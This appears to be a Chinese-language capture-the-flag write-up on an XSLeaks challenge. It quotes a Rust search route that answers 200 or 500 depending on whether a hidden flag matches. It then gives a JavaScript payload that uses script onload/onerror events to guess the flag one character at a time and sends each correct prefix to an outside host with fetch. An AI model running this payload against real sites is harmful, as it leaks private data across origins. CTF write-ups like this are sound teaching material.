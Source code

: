 考点: 利用 HTTP Status Code 进行 XSLeaks

src/route.rs

```rust
pub async fn private_search(
    Query(search): Query<Search>,
    State(pool): State<Arc<DbPool>>,
    ConnectInfo(addr): ConnectInfo<SocketAddr>,
) -> Result<Json<Vec<String>>, AppError> {
    // 以下两个 if 与题目无关, 你只需要知道: private_search 路由仅有 bot 才能访问

    // 本地环境 (docker compose)
    let bot_ip = tokio::net::lookup_host("bot:4444").await?.next().unwrap();
    if addr.ip() != bot_ip.ip() {
        return Err(anyhow!("only bot can access").into());
    }

    // 远程环境 (k8s)
    // if !addr.ip().is_loopback() {
    //     return Err(anyhow!("only bot can access").into());
    // }

    let conn = pool.get()?;
    let comments = db::search(conn, search.s, true)?;

    if comments.len() > 0 {
        Ok(Json(comments))
    } else {
        Err(anyhow!("No comments found").into())
    }
}
```

`/internal/search` 路由仅允许 bot 访问, 同时其 `db::search` 的第三个参数传入了 true, 代表允许搜索 hidden comments (flag)

如果能搜到 comments, 返回 `OK()` (200), 否则返回 `Err()` (500)

这是一个很经典的 XSLeaks 题目, 根据 [https://xsleaks.dev/](https://xsleaks.dev/), 结合以上不同的 HTTP 状态码, 可以利用 onload 和 onerror 事件 leak flag

payload

```html
<script>
    function probeError(flag) {
        let url = 'http://web:8000/internal/search?s=' + flag;

        let script = document.createElement('script');
        script.src = url;
        script.onload = () => {
            fetch('http://host.docker.internal:8001/?flag=' + flag, { mode: 'no-cors' });
            leak(flag);
            script.remove();
        };
        script.onerror = () => script.remove();
        document.head.appendChild(script);
    }

    let dicts = 'abcdefghijklmnopqrstuvwxyz0123456789-{}';

    function leak(flag) {
        for (let i = 0; i < dicts.length; i++) {
            let char = dicts[i];
            probeError(flag + char);
        }
    }
```